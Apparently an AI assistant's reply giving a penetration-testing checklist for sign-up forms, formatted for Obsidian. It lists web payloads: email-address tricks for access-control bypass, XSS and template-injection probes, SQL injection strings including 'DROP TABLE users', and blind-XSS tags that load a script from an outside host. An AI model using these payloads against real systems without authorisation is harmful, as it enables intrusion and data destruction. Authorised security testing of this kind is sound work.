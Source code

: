 Sure, I'll add the new items to the checklist and ensure that each item is marked with a checkbox for Obsidian. Here is the updated and enhanced checklist:

---

### Enhanced Checklist for Sign Up Vulnerabilities in Obsidian

This checklist is sorted by the potential vulnerability type and includes example payloads and additional notes.

#### General Vulnerability Categories

1. **Sensitive Information Disclosure**

   - **Existing Email Address Reflection:**
     - Payload: `email=existing@gmail.com`
     - Note: Check for authorization tokens or other sensitive information reflected in the response.
     - [ ] Done

   - **Company Email Address Reflection:**
     - Payload: `email=admin@company.com`
     - Note: Check if this grants extra authorities or functionalities.
     - [ ] Done

   - **Company Email Address Variations:**
     - Payloads: `admin@company.com (with space)`, `admin@COMPANY.COM`, `admin@gmail.com@company.com`, `me+(@gmail.com)@company.com`, `"me@gmail.com"@company.com`, `<me@gmail.com>"@company.com`, `"me@gmail.com;"@company.com`, `"me@gmail.com+"@company.com`
     - Note: Test these variations for potential access control bypass or sensitive information disclosure.
     - [ ] Done

   - **Large String Injection:**
     - Payload: Inject large strings (50,000+ characters) into POST parameters.
     - Note: Monitor for errors, which may reveal sensitive information.
     - [ ] Done

2. **Cross-Site Scripting (XSS)**

   - Payloads:
     - `me+(<script>alert(0)</script>)@gmail.com`
     - `me(<script>alert(0)</script>)@gmail.com`
     - `me@gmail(<script>alert(0)</script>).com`
     - `"<script>alert(0)</script>"@gmail.com`
     - `"<%= 7 * 7 %>"@gmail.com` (for SSTI)
     - `me+(${{7*7}})@gmail.com` (for SSTI)
     - `"' OR 1=1 -- '"@gmail.com` (for SQLi)
     - `"me); DROP TABLE users;--"@gmail.com` (for SQLi)
     - `%@gmail.com`
   - Note: Test these payloads in email addresses, usernames, first/last names, and password fields.
   - [ ] Done

3. **Server-Side Template Injection (SSTI)**

   - Payloads:
     - `{{7*7}}, {7*7}, ${{7*7}}`
     - `<script src=//me.xss.ht></script>`
     - `<img src="//me.xss.ht">`
     - `<%` (to check for reflection in email body)
     - `<%= 7 * 7 %>` (for SSTI if `<%` is reflected)
   - Note: Test these payloads in first name, last name, and username fields.
   - [ ] Done
